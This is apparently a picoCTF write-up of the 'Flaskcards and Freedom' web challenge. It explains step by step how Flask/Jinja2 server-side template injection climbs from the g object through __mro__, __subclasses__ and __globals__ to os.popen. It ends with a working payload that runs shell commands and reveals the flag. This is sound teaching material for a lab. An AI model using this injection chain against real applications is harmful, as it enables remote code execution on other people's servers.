# Flaskcards and Freedom - Web

From the hints on this challenge, we need to get RCE and we can get that by template injection.

First we run
```
g.__class__``` This returns a class object:
> <class 'flask.ctx._AppCtxGlobals'>

Then we do:
```
g.__class__.__mro__
``` This returns a list of classes that ```g.__class__``` is inheriting from(mro stands for Method Resolution Order)
> (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Then we need the second index there which will be [1]. After that we do:
```g.__class__.__mro__[1].__subclasses__()```
which will return a list of classes that inherit from ```<class 'object'>```
>[<class 'itertools.compress'>, <class 'formatteriterator'>, <class 'logging.Filter'>, ...] 

Then we choose for example index 14 which is a dummy class (just a normal class we can use, we could have used most other classes). By running this command 
```g.__class__.__mro__[1].__subclasses__()[14]```
We get
><class 'tarfile.TarIter'>

Then we run ```g.__class__.__mro__[1].__subclasses__()[14].__init__``` which will return a function that creates a new tarfile object
><function TarIter.__init__ at 0x7fd68213fb70>

After that, we run this command ```g.__class__.__mro__[1].__subclasses__()[14].__init__.__globals__``` which will return a list of all globals functions available in the user's scope
> {'TarFile': <class 'tarfile.TarFile'>, 'open': <bound method TarFile.open of <class 'tarfile.TarFile'>>, ...

Then we need to choose the sys module from the result above because the sys module contains the os module which we can use to open a file in Python. Once we have chosen the os module, we can use the popen and read function to read the flag file. The final command looks like this:
```{{ g.__class__.__mro__[1].__subclasses__()[14].__init__.__globals__['sys'].modules['os'].popen("cat flag").read() }}```

This gives us the flag: picoCTF{R_C_E_wont_let_me_be_04eedee8}